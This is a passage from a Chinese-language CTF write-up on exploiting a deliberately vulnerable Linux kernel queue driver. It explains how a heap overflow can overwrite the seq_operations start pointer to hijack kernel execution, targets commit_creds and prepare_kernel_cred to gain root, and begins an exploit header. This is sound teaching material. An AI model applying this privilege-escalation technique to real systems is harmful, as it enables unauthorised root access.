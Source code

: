 综上，我们大概理解了这个驱动的功能，其中包含了一个整型溢出漏洞和一个缓冲区溢出漏洞。接下来介绍这个漏洞应该如何利用。

本题的漏洞利用方式需要借助一个结构体：``seq_operations``，大小为0x20（与queue相同），包含4个指针：

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
}
```

简单介绍一下这个结构体是干什么用的。这是序列文件必备的结构体，相当于一个迭代器，能够循环输出某些内容，常用于导出数据与记录，便于管理大数据文件。当一个定义了这个结构体的LKM被打开（如使用cat命令）时，内核就会创建这样的一个数据结构，并首先调用start函数指针。由于这个结构体的大小为0x20，因此其很有可能与上面的queue分配到相距不远的地方。如果能够控制这里的start指针，就能够控制内核执行流。本题打开的序列文件为/proc/self/stat。

下面是这题的qemu启动脚本：
```bash
#!/bin/bash

exec qemu-system-x86_64 \
    -cpu kvm64 \
    -m 512 \
    -nographic \
    -kernel "bzImage" \
    -append "console=ttyS0 panic=-1 pti=off kaslr quiet" \
    -monitor /dev/null \
    -initrd "./rootfs.cpio" \
    -net user \
    -net nic
```

可见其开启了kaslr保护，但没有SMAP/SMEP和kpti，因此如果能够获取到内核地址的基址，就能够找到``commit_creds``和``prepare_kernel_cred``两个函数的地址。至于如何找到内核基址，后面介绍。

现在，我们可以着手编写程序的交互部分了，一些通用的函数如下所示：

```c
//
// Created by root on 22-7-13.
//
#ifndef ROOTFS_HEAP_OVERFLOW_H
#define ROOTFS_HEAP_OVERFLOW_H

#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>

#define CREATE_KQUEUE 0xDEADC0DE
#define EDIT_KQUEUE   0xDAADEEEE
#define DELETE_KQUEUE 0xBADDCAFE
#define SAVE          0xB105BABE

typedef struct{
    uint32_t max_entries;
    uint16_t data_size;
    uint16_t entry_idx;
    uint16_t queue_idx;
    char* data;
}request_t;

```